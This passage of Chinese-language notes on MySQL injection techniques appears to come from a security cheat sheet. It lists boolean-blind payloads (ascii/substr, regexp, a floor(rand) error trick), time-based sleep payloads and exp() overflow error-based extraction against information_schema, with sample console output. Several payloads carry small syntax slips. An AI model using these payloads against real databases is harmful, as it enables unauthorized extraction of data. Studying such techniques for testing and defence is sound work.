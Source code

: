     字符串函数构造
    ```sql
    ascii(substr((select table_name information_schema.tables where tables_schema=database()limit 0,1),1,1))=101 --+        //substr()函数，ascii()函数
    ```

    正则构造
    ```sql
    select user() regexp '^[a-z]';
   
    select * from users where id=1 and 1=(user() regexp'^ri');
   
    select * from users where id=1 and 1=(if((user() regexp '^r'),1,0));
    ```

    like匹配注入
    ```sql
    Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a; 
    ```
    这个和正则差不多

    #### 基于时间

    if判断语句，条件为假，执行sleep 
    ```sql
    If(ascii(substr(database(),1,1))>115,0,sleep(5))%23 
    ```
    原理大多类似,要求网速比较好

    #### 基于报错
    得到表名：

    ```sql
    select exp(~(select*from(select table_name from information_schema.tables where table_schema=database() limit 0,1)x));
    ```
    当数字大于BIGINT溢出后mysql会报错, 这里的BIGINT是 !0

    ```sql
    MariaDB [(none)]> select ~0;
    +----------------------+
    | ~0                   |
    +----------------------+
    | 18446744073709551615 |
    +----------------------+
    1 row in set (0.000 sec)
    ```
    然后实验如下:
    ```sql
    MariaDB [(none)]> select (select*from(select user())x);
    +-------------------------------+
    | (select*from(select user())x) |
    +-------------------------------+
    | root@localhost                |
    +-------------------------------+
    1 row in set (0.006 sec)
   